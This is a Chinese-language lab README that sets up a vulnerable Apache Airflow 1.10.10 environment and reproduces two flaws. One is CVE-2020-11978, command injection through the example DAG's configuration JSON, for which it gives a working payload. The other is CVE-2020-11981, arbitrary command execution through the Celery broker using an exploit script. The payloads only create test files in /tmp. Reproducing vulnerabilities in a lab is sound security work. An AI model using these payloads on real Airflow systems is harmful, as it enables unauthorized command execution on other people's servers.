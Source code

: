 # Airflow 1.10.10 多个漏洞利用

airflow是一款开源的，分布式任务调度框架，它将一个具有上下级依赖关系的工作流，组装成一个有向无环图。

docker-compose文件由airflow 2.x提供的docker-compose文件修改而来。

Airflow的配置中使用CeleryExecutor进行任务执行，所以命令执行结果需要在CeleryWorker所在容器中进行查看。

由于启动的组件比较多，可能会有点卡，虚拟机使用请准备2G以上的内存。

## 漏洞环境

依次执行如下命令启动airflow 1.10.10

```bash
#初始化数据库
docker-compose run airflow-init initdb
#启动服务
docker-compsoe up -d
```

## 漏洞复现

### CVE-2020-11978 示例dag中的命令注入

访问`http://主机:8080`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![image-20210701142307744](README.assets/image-20210701142307744.png)

再点击执行按钮，在`Configuration JSON`中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`,再点`Trigger`执行dag

![image-20210701142758977](README.assets/image-20210701142758977.png)

等几秒可以看到执行`success`了

![image-20210701142948275](README.assets/image-20210701142948275.png)

到CeleryWorker容器中进行查看：

```bash
docker-compose exec airflow-worker ls -l /tmp
```

可以看到成功创建了airflow_dag_success文件

![image-20210701154024308](README.assets/image-20210701154024308.png)

### CVE-2020-11981 利用Celery进行命令执行

（其实这个还有默认配置中的各种未授权问题的结合利用）

airflow使用Celery 4.0以上的版本，所以没法通过pickle反序列化漏洞进行利用，但可以通过下发自带启动Task用的`airflow.executors.celery_executor.execute_command`任务来执行任意命令，参数为命令执行中所需要的数组。

漏洞利用脚本`exploit_airflow_celery.py`仅支持在python3下使用,默认执行命令`touch /tmp/airflow_celery_success`

```bash
pip install redis
python exploit_airflow_celery.py [主机IP]
```

查看结果：

```bash
docker-compose logs airflow-worker
```

可以看到如下任务消息：

![image-20210701153205499](README.assets/image-20210701153205499.png)

```bash
docker-compose exec airflow-worker ls -l /tmp
```

可以看到成功创建了文件`airflow_celery_success`

![image-20210701153237894](README.assets/image-20210701153237894.png)

## 参考

https://xz.aliyun.com/t/8037

https://lists.apache.org/thread.html/r7255cf0be3566f23a768e2a04b40fb09e52fcd1872695428ba9afe91%40%3Cusers.airflow.apache.org%3E

https://docs.celeryproject.org/en/stable/userguide/configuration.html

https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk

https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers

https://www.jianshu.com/p/52552c075bc0

https://www.runoob.com/w3cnote/python-redis-intro.html

https://blog.csdn.net/SKI_12/article/details/85015803

